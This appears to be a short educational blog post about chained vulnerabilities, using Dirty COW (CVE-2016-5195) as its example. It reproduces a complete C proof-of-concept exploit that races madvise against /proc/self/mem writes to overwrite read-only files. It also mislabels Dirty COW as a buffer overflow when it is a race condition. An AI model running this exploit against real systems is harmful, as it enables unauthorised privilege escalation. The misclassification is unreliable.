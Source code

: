 ```yaml
---
title: Chain effect of vulnerabilities
date: 2024-11-23 10H:21:00 -0300
categories: [Cybersecurity, Vulnerabilities]
tags: [cybersecurity, vulnerabilities, CVE, devsecops]
author: 0
description:
image:
  path: https://upload.wikimedia.org/wikipedia/commons/7/73/Logo_nmap.png?20230731104508
  alt: Picture
---
```


# Chain effect of vulnerabilities
The different implementation layers of digital technologies create dependencies that can sometimes lead to security failures with a "chain effect," thereby impacting the underlying technologies.

## Real-world Example: CVE-2016-5195 (Dirty COW)
- Reference: [Nist: CVE-2016-5195](https://nvd.nist.gov/vuln/detail/cve-2016-5195)
One of the most infamous buffer overflow vulnerabilities in the Linux kernel is CVE-2016-5195, also known as Dirty COW. This vulnerability allowed attackers to gain write access to read-only memory mappings, leading to privilege escalation. The issue was due to a race condition in the kernel's memory subsystem, which could be exploited to overwrite data in memory.

The exploit for Dirty COW was relatively simple and could be executed with a few lines of code, making it a significant threat. The vulnerability had existed in the Linux kernel for nine years before it was discovered and patched.

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <fcntl.h>
#include <sys/mman.h>
#include <pthread.h>
#include <unistd.h>

void *map;
int f;
struct stat st;
char *name;

void *madviseThread(void *arg) {
  int i;
  for (i = 0; i < 1000000; i++)
    madvise(map, 100, MADV_DONTNEED);
  return NULL;
}

void *procselfmemThread(void *arg) {
  int f = open("/proc/self/mem", O_RDWR);
  int i;
  for (i = 0; i < 1000000; i++) {
    lseek(f, (uintptr_t) map, SEEK_SET);
    write(f, name, strlen(name));
  }
  return NULL;
}

int main(int argc, char *argv[]) {
  pthread_t pth1, pth2;
  f = open(argv[1], O_RDONLY);
  fstat(f, &st);
  name = argv[2];
  map = mmap(NULL, st.st_size, PROT_READ, MAP_PRIVATE, f, 0);
  pthread_create(&pth1, NULL, madviseThread, NULL);
  pthread_create(&pth2, NULL, procselfmemThread, NULL);
  pthread_join(pth1, NULL);
  pthread_join(pth2, NULL);
  return 0;
}
```

This example demonstrates how a buffer overflow vulnerability can lead to severe security incidents, emphasizing the importance of secure coding practices and regular security audits as [Secutiry Controls in DevOps and Pipeline](/_posts/CyberSec/2024-11-23-Preventive-Security-Controls.md)